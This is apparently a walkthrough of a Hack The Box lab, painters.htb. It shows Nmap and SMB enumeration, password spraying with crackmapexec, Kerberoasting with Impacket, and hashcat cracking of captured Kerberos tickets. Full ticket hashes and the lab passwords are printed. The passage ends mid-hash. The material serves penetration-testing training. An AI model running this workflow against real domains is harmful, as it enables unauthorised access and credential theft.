





If we run a NMAP scan on the TCP protocol:

```
riley@mail:/tmp$ ./nmap -Pn 192.168.110.52

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-09-08 13:07 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 0.42% done
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 0.85% done
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 22.50% done; ETC: 13:07 (0:00:14 remaining)
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 99.99% done; ETC: 13:07 (0:00:00 remaining)
Nmap scan report for 192.168.110.52
Host is up (0.00051s latency).
Not shown: 1178 filtered ports
PORT     STATE SERVICE
135/tcp  open  epmap
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 6.54 seconds
```

We know based on open services that this is definitely a Windows OS server, unfortunately I can't run a UPD type scan because I need root permissions and we don't have them right now so we have to skip; I will try to check for possible SNMP but not sure if it will find something so far.



* * *

## SMB:

I start by footprinting the SMB server and we see that this is the host PNT-SVRSVC.painters.htb  which is a Windows domain joined with build **20348**.

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/ZEPHYR]
└─# proxychains enum4linux-ng -A 192.168.110.52                                                                                                                                              
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
ENUM4LINUX - next generation (v1.3.1)

[proxychains] DLL init: proxychains-ng 4.16
 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 192.168.110.52
[*] Username ......... ''
[*] Random Username .. 'iwdnmuwa'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 =======================================
|    Listener Scan on 192.168.110.52    |
 =======================================
[*] Checking LDAP
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:389 <--socket error or timeout!
[-] Could not connect to LDAP on 389/tcp: connection refused
[*] Checking LDAPS
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:636 <--socket error or timeout!
[-] Could not connect to LDAPS on 636/tcp: connection refused
[*] Checking SMB
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:445  ...  OK
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:139  ...  OK
[+] SMB over NetBIOS is accessible on 139/tcp

 =============================================================
|    NetBIOS Names and Workgroup/Domain for 192.168.110.52    |
 =============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ===========================================
|    SMB Dialect Check on 192.168.110.52    |
 ===========================================
[*] Trying on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:445  ...  OK
[+] Supported dialects and settings:
Supported dialects:                                                                                                                                                                          
  SMB 1.0: false                                                                                                                                                                             
  SMB 2.02: true                                                                                                                                                                             
  SMB 2.1: true                                                                                                                                                                              
  SMB 3.0: true                                                                                                                                                                              
  SMB 3.1.1: true                                                                                                                                                                            
Preferred dialect: SMB 3.0                                                                                                                                                                   
SMB1 only: false                                                                                                                                                                             
SMB signing required: false                                                                                                                                                                  

 =============================================================
|    Domain Information via SMB session for 192.168.110.52    |
 =============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:445  ...  OK
[+] Found domain information via SMB
NetBIOS computer name: PNT-SVRSVC                                                                                                                                                            
NetBIOS domain name: PAINTERS                                                                                                                                                                
DNS domain: painters.htb                                                                                                                                                                     
FQDN: PNT-SVRSVC.painters.htb                                                                                                                                                                
Derived membership: domain member                                                                                                                                                            
Derived domain: PAINTERS                                                                                                                                                                     

 ===========================================
|    RPC Session Check on 192.168.110.52    |
 ===========================================
[*] Check for null session
[-] Could not establish null session: STATUS_ACCESS_DENIED
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE
[-] Sessions failed, neither null nor user sessions were possible

 =================================================
|    OS Information via RPC for 192.168.110.52    |
 =================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:445  ...  OK
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Skipping 'srvinfo' run, not possible with provided credentials
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                                                                                                                                     
OS version: '10.0'                                                                                                                                                                           
OS release: ''                                                                                                                                                                               
OS build: '20348'                                                                                                                                                                            
Native OS: not supported                                                                                                                                                                     
Native LAN manager: not supported                                                                                                                                                            
Platform id: null                                                                                                                                                                            
Server type: null                                                                                                                                                                            
Server type string: null                                                                                                                                                                     

[!] Aborting remainder of tests since sessions failed, rerun with valid credentials

Completed after 13.49 seconds
```

I will try to passwordspray the service by using users from the DMZ server and RIleys password:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/ZEPHYR]
└─# proxychains crackmapexec smb 192.168.110.52 -u users.txt -p passwords.txt                                                                                                                
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:135  ...  OK
SMB         192.168.110.52  445    PNT-SVRSVC       [*] Windows 10.0 Build 20348 x64 (name:PNT-SVRSVC) (domain:painters.htb) (signing:False) (SMBv1:False)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:445  ...  OK
SMB         192.168.110.52  445    PNT-SVRSVC       [+] painters.htb\riley:P@ssw0rd
```

Now we know that riley's account works! I will check for possible guest accessible shares:



As I guessed is not working so I will perform same steps but this time as riley:

```
=======================================
|    Users via RPC on 192.168.110.52    |
 =======================================
[*] Enumerating users via 'querydispinfo'
[-] Could not find users via 'querydispinfo': STATUS_CONNECTION_DISCONNECTED
[*] Enumerating users via 'enumdomusers'
[-] Could not find users via 'enumdomusers': STATUS_CONNECTION_DISCONNECTED

 ========================================
|    Groups via RPC on 192.168.110.52    |
 ========================================
[*] Enumerating local groups
[-] Could not get groups via 'enumalsgroups domain': STATUS_CONNECTION_DISCONNECTED
[*] Enumerating builtin groups
[-] Could not get groups via 'enumalsgroups builtin': STATUS_CONNECTION_DISCONNECTED
[*] Enumerating domain groups
[-] Could not get groups via 'enumdomgroups': STATUS_CONNECTION_DISCONNECTED

 ========================================
|    Shares via RPC on 192.168.110.52    |
 ========================================
[*] Enumerating shares
[+] Found 3 share(s):
ADMIN$:                                                                                                                                                                                      
  comment: Remote Admin                                                                                                                                                                      
  type: Disk                                                                                                                                                                                 
C$:                                                                                                                                                                                          
  comment: Default share                                                                                                                                                                     
  type: Disk                                                                                                                                                                                 
IPC$:                                                                                                                                                                                        
  comment: Remote IPC                                                                                                                                                                        
  type: IPC                                                                                                                                                                                  
[*] Testing share ADMIN$
[+] Mapping: DENIED, Listing: N/A
[*] Testing share C$
[+] Mapping: DENIED, Listing: N/A
[*] Testing share IPC$
[+] Mapping: OK, Listing: NOT SUPPORTED
```

I still see that riley can't use the RPC protocol to enumerate all users/groups in domain and I don't see any strange share so I guess we can either login via RDP or via WinRM?

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/ZEPHYR]
└─# proxychains crackmapexec rdp 192.168.110.52 -u users.txt -p passwords.txt 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:3389  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:3389  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:3389  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:3389  ...  OK
RDP         192.168.110.52  3389   PNT-SVRSVC       [*] Windows 10 or Windows Server 2016 Build 20348 (name:PNT-SVRSVC) (domain:painters.htb) (nla:True)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  PNT-SVRSVC:3389 <--socket error or timeout!
RDP         192.168.110.52  3389   PNT-SVRSVC       [-] painters.htb\riley:P@ssw0rd 
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  PNT-SVRSVC:3389 <--socket error or timeout!
RDP         192.168.110.52  3389   PNT-SVRSVC       [-] painters.htb\blake:P@ssw0rd 
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  PNT-SVRSVC:3389 <--socket error or timeout!
RDP         192.168.110.52  3389   PNT-SVRSVC       [-] painters.htb\daniel:P@ssw0rd 
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  PNT-SVRSVC:3389 <--socket error or timeout!
RDP         192.168.110.52  3389   PNT-SVRSVC       [-] painters.htb\matt:P@ssw0rd 

┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/ZEPHYR]
└─# proxychains crackmapexec winrm 192.168.110.52 -u users.txt -p passwords.txt 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5986 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:445  ...  OK
SMB         192.168.110.52  5985   PNT-SVRSVC       [*] Windows 10.0 Build 20348 (name:PNT-SVRSVC) (domain:painters.htb)
HTTP        192.168.110.52  5985   PNT-SVRSVC       [*] http://192.168.110.52:5985/wsman
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
WINRM       192.168.110.52  5985   PNT-SVRSVC       [-] painters.htb\riley:P@ssw0rd
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
WINRM       192.168.110.52  5985   PNT-SVRSVC       [-] painters.htb\blake:P@ssw0rd
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
WINRM       192.168.110.52  5985   PNT-SVRSVC       [-] painters.htb\daniel:P@ssw0rd
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.52:5985  ...  OK
WINRM       192.168.110.52  5985   PNT-SVRSVC       [-] painters.htb\matt:P@ssw0rd
```

Ok here I guess we will have to find other ways in, we can exaple try to check for all the users who do not require pre-auth with kerberos(aka AS-REPRoasting) and for users that have SPN(aka Kerberoasting) but since we are remote we need to identity the address of the DC before so we need to come back.

* * *

## Finding the DC:

Fast forward I found that the Internal DC is on the .55:



Knowing this opens us for attacks we mentioned before as Kerberoast & AS-RepRoast!

* * *

## Back on track:

Now that we found out the IP of the DC we can start by getting all the possible AS-REPROastable user in the printer.htb domain:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/ZEPHYR]
└─# proxychains impacket-GetNPUsers painters.htb/riley -dc-ip 192.168.110.55 -request 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.10.1.dev1+20230728.114623.fb147c3f - Copyright 2022 Fortra

Password:
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.55:389  ...  OK
No entries found!
```

Umh nothing so far but what about kerberoasting intead?

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/ZEPHYR]
└─# proxychains impacket-GetUserSPNs painters.htb/riley:P@ssw0rd -dc-ip 192.168.110.55 -request
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.10.1.dev1+20230728.114623.fb147c3f - Copyright 2022 Fortra

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.55:389  ...  OK
ServicePrincipalName   Name     MemberOf  PasswordLastSet             LastLogon                   Delegation  
---------------------  -------  --------  --------------------------  --------------------------  -----------
HTTP/dc.painters.htb   blake              2023-09-08 15:00:58.908775  2023-09-08 15:16:56.424429  constrained 
HTTP/svc.painters.htb  web_svc            2023-05-24 08:50:47.043365  2023-09-08 15:29:53.706260              


[-] CCache file is not found. Skipping...
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.55:88  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.55:88  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.55:88  ...  OK
$krb5tgs$23$*blake$PAINTERS.HTB$painters.htb/blake*$3ccc4a6dea050be411ab571e1b2df66c$d950dbc9993986387376373f572c13ad2b64d19867b1239c7f62052bafb8e7768c29e98ca5bbb7b3d9d1cf049950ab1aecaf54bd03f24b9225e5f36395321b85c9394567a99d1cf9fa8daa6124af614a8f7489a36699a39b2c6dcbca3dfcc961770533162bccd9a0480960ffc4e5cb623d969e334c468bd6f61ca3c850bad4a3cbfa89da9efdfadb0e3cbd678d0173717e0396037ea8973fb939b005abb81d8e8f1fba8bb2ad2a43872bfc4d778ef3f3437135623da4f7c5608a109b04b903122bf7be4658e0aca7bef66940ad53a87d5990b0ef3c1bf219754d73a35ec999d3f6293a5c97e8b886a64529f4e5ef3957d6b2cf393844c5ea28142af597699ae31d8c399b0b02d6c2ec2492d9f1e98bdb94574574ae324059febc8d5399f3146d4c0245427d60b8d2e23fbcd617be76497aa102eb8731362fe3c63686317d396573832f6a1b0a40f97b55e9fabdcd83739f09ac05023a3fe56508f53dd07ef5e3b6a41d4a6e0ee7edd347542e11ac929fcd7ec768213f1e811795ee78ac46e226d66b2a29ba2df99248618985018d7abf328db0195b2ff7267d8e443a790c0463b27554987937c561e838421769b4923eaf81466b8094d8355c2c33d4d1253345d0f004f4d907a962bcf07686a10cdf21caa97a49287b4a113f26092303be551e25496b747ca5ae22dd8e16d8bb5449abc54722474457df60a63e9d3c99d805df79802300d6cbef05f24d496b8d22135e99004a7588fd5e664c118dbb58589511e83a1bec40d89fcd0a53d49a220c35f801d56549aafaf0d8c1828cae285047d768acb0420a11409bb24f32e8ab17b0cab61147ca98a2e010156e3e6acf0b88e5ec234d00c727048ad60deff80f76bc3b8fbe6d89f14445e035b5ee70f9aa84c35cf1e7947fe68093825262f492ca1376fe34f3d1dba712d38e78f9de88a1241d96ff7e11a69b7d147e566f47e7ca28e7ddbed61772ee9bb2134bf9f61ef5e577b37d3a4e7e24a8ae2195687efc97e5a949edd331ed44c8e23b8383eeaedcf800b17fe71fa659321b2ad5990d61095af921aa5d41014b0f5131dfa5ad8d09f2b3486a6f9825e3b86684ec857b70387ab65b505658d99648bc054eb8197f45b5cfa6551b646687644b834206235abee8511a4ef7145905a1503a2fd46f77f5a7da41b5afb4ea83fb99ce2d8bc9640743471363983ea79baeb7fdcc4a048b36b068a3a710ff230caad7a33df6c1e2fd40cd406ae645aa9034b6083be891da7e36221da0bf1834c3caa1e9768c83e7e993406ca5757930b1484108d7713b6ada3d9543ff09edb33343693b8d4d328dfb54dcc68812bae0a441814c1ca809b1e004be46f2f6bd6609dcad2088f75c537e23a9d523ebbddbdbdce87258d0276ff3006b0fdcf1ba532c00f5aaba284b9bdad5099143d22b37015038bbee2f327dc19b2296eb5d3fe9463d51d892
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.55:88  ...  OK
$krb5tgs$23$*web_svc$PAINTERS.HTB$painters.htb/web_svc*$36a34e1eca97a5e2653b6118d40273de$6d5353b131883efaeba10b5bdb6891e1d1111693d0ac80636a01bf8d0e66fa48bf0c2b51a035956c5ce741273d9dcbfdb091301d150e07ec5e61b0130fac9375b4092855e8a69af95c3d2dc4f44606ccff5193ac0bdd56c20487f409eb4756d30f4afc9345a8a07512c2890fc998204e447540988b32a7aaa7efc7fdeaea8393334b65f2ba8a06c89646f01fc172f234928a56eeb134ef69a0d66e810c360b0e32fab41123009d2fea5c6b779534b33fa521449fd55be7870c7b7912c01d2e1791653eb4a907a05faf594e5b092ab2b3d07471ec953fd4da2f1d6c72c741d496f2f283c34ddec7a408ec06779de7006a42a4507d05c7bcc8bb5ccf3dbc799bdcf588f6dbcf28e3fa43e9fdb5a7bc4e53a36153d6393c98aa02af8151dad4464e25652d1c3ed14d093ed8c8f7b087b9c2f02c666d7355a709a7fd5b8b7372b02ac872608aa0e40f0bbc00d2b686715c6a1a41d6a8e36054110591fc40180def8e420d1d92f4e95a0fba62623d02a0359770b930a8a59b995b6eeff14648a2c6e0cef99b62eb8e14d9a8ae7b8828b04fb0b7675c4ae2f04dc879b996b37351e37899550702382c8906f929138d30627fccf8beac177fb66a6bfe1bc2a8b8922cd2dba969d51858d0c1b29a7b691d58427f43a7f72f85b21c56f6584d70c06233b7d0a730a5c86abb351032a41bac0b05b43e8091b7d0db258a422ca733a6e40ecbe7f6ddc7056255c262451664b011dc7a1401acc05130608befe77061cbbb456d34358e0dfc533864c520ea3f4f8ae9258b96fda402600f57c6d03258d0b89e773401631f45db65fcd48b125bf3417e8240030295ac02022fbe602d3fd675f4f3682621357bbae6a43092439624a2039c5dbdca685a4922a5906afd62041142e641d3c3959c3e3895f6ef3fb6c4dd42824a65e728f35ed751996919876e294eb6be9625c4eefce28a3c3e919bcdbfac94e5815a5da6792ddd40d927cffa29762a8b45157669b1fa0d123a4eb41a665052a1d912d649f64da72f1a2be908d48d423c2bd4fcec2dbd15c775ba03f71d4cde724e5d0345776a167f2c9e04254751c28a02fe7fe519def3cce7e3fe49921112670ea694fa5ca9ec34fbf57d0dc1dfb2cbe412eb4c2c2e433c0c22390720be04494e6463f4df4191cfff5942c51e0c88f1824c43ce266366af1e2d7534f7ddbb65191b3fd6faf939c871bd5df1257570c3739720da6c05880e190ef5380754b4b56f2907e5896fb6cf3a7b004d991ba80d35779b2cc9f704d91efdf573ca241853286cf4e295b7801cb6d790adce3437e6fd2419dbccc2b7ca9408f84c961d6f8c356dab8cddc2411a98a33ddf00e0d725ea35c4f21df5ee0c3ec408cf1e70333aeed3160351a04a36103f1e0c3bdb660f021bd50191659c2a5fae4248e8ae8f5de8f5fa5d17c6d13fe50769b3524bb0bb21103d6ea1cfde95c0
```

Nice we have actually 2 new users, and blake can be cracked:

```
$krb5tgs$23$*blake$PAINTERS.HTB$painters.htb/blake*$3ccc4a6dea050be411ab571e1b2df66c$d950dbc9993986387376373f572c13ad2b64d19867b1239c7f62052bafb8e7768c29e98ca5bbb7b3d9d1cf049950ab1aecaf54bd03f24b9225e5f36395321b85c9394567a99d1cf9fa8daa6124af614a8f7489a36699a39b2c6dcbca3dfcc961770533162bccd9a0480960ffc4e5cb623d969e334c468bd6f61ca3c850bad4a3cbfa89da9efdfadb0e3cbd678d0173717e0396037ea8973fb939b005abb81d8e8f1fba8bb2ad2a43872bfc4d778ef3f3437135623da4f7c5608a109b04b903122bf7be4658e0aca7bef66940ad53a87d5990b0ef3c1bf219754d73a35ec999d3f6293a5c97e8b886a64529f4e5ef3957d6b2cf393844c5ea28142af597699ae31d8c399b0b02d6c2ec2492d9f1e98bdb94574574ae324059febc8d5399f3146d4c0245427d60b8d2e23fbcd617be76497aa102eb8731362fe3c63686317d396573832f6a1b0a40f97b55e9fabdcd83739f09ac05023a3fe56508f53dd07ef5e3b6a41d4a6e0ee7edd347542e11ac929fcd7ec768213f1e811795ee78ac46e226d66b2a29ba2df99248618985018d7abf328db0195b2ff7267d8e443a790c0463b27554987937c561e838421769b4923eaf81466b8094d8355c2c33d4d1253345d0f004f4d907a962bcf07686a10cdf21caa97a49287b4a113f26092303be551e25496b747ca5ae22dd8e16d8bb5449abc54722474457df60a63e9d3c99d805df79802300d6cbef05f24d496b8d22135e99004a7588fd5e664c118dbb58589511e83a1bec40d89fcd0a53d49a220c35f801d56549aafaf0d8c1828cae285047d768acb0420a11409bb24f32e8ab17b0cab61147ca98a2e010156e3e6acf0b88e5ec234d00c727048ad60deff80f76bc3b8fbe6d89f14445e035b5ee70f9aa84c35cf1e7947fe68093825262f492ca1376fe34f3d1dba712d38e78f9de88a1241d96ff7e11a69b7d147e566f47e7ca28e7ddbed61772ee9bb2134bf9f61ef5e577b37d3a4e7e24a8ae2195687efc97e5a949edd331ed44c8e23b8383eeaedcf800b17fe71fa659321b2ad5990d61095af921aa5d41014b0f5131dfa5ad8d09f2b3486a6f9825e3b86684ec857b70387ab65b505658d99648bc054eb8197f45b5cfa6551b646687644b834206235abee8511a4ef7145905a1503a2fd46f77f5a7da41b5afb4ea83fb99ce2d8bc9640743471363983ea79baeb7fdcc4a048b36b068a3a710ff230caad7a33df6c1e2fd40cd406ae645aa9034b6083be891da7e36221da0bf1834c3caa1e9768c83e7e993406ca5757930b1484108d7713b6ada3d9543ff09edb33343693b8d4d328dfb54dcc68812bae0a441814c1ca809b1e004be46f2f6bd6609dcad2088f75c537e23a9d523ebbddbdbdce87258d0276ff3006b0fdcf1ba532c00f5aaba284b9bdad5099143d22b37015038bbee2f327dc19b2296eb5d3fe9463d51d892:P@ssw0rd
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*blake$PAINTERS.HTB$painters.htb/blake*...51d892
Time.Started.....: Fri Sep  8 16:12:41 2023 (0 secs)
Time.Estimated...: Fri Sep  8 16:12:41 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1250.6 kH/s (0.97ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 12288/14344385 (0.09%)
Rejected.........: 0/12288 (0.00%)
Restore.Point....: 6144/14344385 (0.04%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: horoscope -> hawkeye

Started: Fri Sep  8 16:12:27 2023
Stopped: Fri Sep  8 16:12:43 2023
```

Same for the service account:

```
$krb5tgs$23$*web_svc$PAINTERS.HTB$painters.htb/web_svc*$36a34e1eca97a5e2653b6118d40273de$6d5353b131883efaeba10b5bdb6891e1d1111693d0ac80636a01bf8d0e66fa48bf0c2b51a035956c5ce741273d9dcbfdb091301d150e07ec5e61b0130fac9375b4092855e8a69af95c3d2dc4f44606ccff5193ac0bdd56c20487f409eb4756d30f4afc9345a8a07512c2890fc998204e447540988b32a7aaa7efc7fdeaea8393334b65f2ba8a06c89646f01fc172f234928a56eeb134ef69a0d66e810c360b0e32fab41123009d2fea5c6b779534b33fa521449fd55be7870c7b7912c01d2e1791653eb4a907a05faf594e5b092ab2b3d07471ec953fd4da2f1d6c72c741d496f2f283c34ddec7a408ec06779de7006a42a4507d05c7bcc8bb5ccf3dbc799bdcf588f6dbcf28e3fa43e9fdb5a7bc4e53a36153d6393c98aa02af8151dad4464e25652d1c3ed14d093ed8c8f7b087b9c2f02c666d7355a709a7fd5b8b7372b02ac872608aa0e40f0bbc00d2b686715c6a1a41d6a8e36054110591fc40180def8e420d1d92f4e95a0fba62623d02a0359770b930a8a59b995b6eeff14648a2c6e0cef99b62eb8e14d9a8ae7b8828b04fb0b7675c4ae2f04dc879b996b37351e37899550702382c8906f929138d30627fccf8beac177fb66a6bfe1bc2a8b8922cd2dba969d51858d0c1b29a7b691d58427f43a7f72f85b21c56f6584d70c06233b7d0a730a5c86abb351032a41bac0b05b43e8091b7d0db258a422ca733a6e40ecbe7f6ddc7056255c262451664b011dc7a1401acc05130608befe77061cbbb456d34358e0dfc533864c520ea3f4f8ae9258b96fda402600f57c6d03258d0b89e773401631f45db65fcd48b125bf3417e8240030295ac02022fbe602d3fd675f4f3682621357bbae6a43092439624a2039c5dbdca685a4922a5906afd62041142e641d3c3959c3e3895f6ef3fb6c4dd42824a65e728f35ed751996919876e294eb6be9625c4eefce28a3c3e919bcdbfac94e5815a5da6792ddd40d927cffa29762a8b45157669b1fa0d123a4eb41a665052a1d912d649f64da72f1a2be908d48d423c2bd4fcec2dbd15c775ba03f71d4cde724e5d0345776a167f2c9e04254751c28a02fe7fe519def3cce7e3fe49921112670ea694fa5ca9ec34fbf57d0dc1dfb2cbe412eb4c2c2e433c0c22390720be04494e6463f4df4191cfff5942c51e0c88f1824c43ce266366af1e2d7534f7ddbb65191b3fd6faf939c871bd5df1257570c3739720da6c05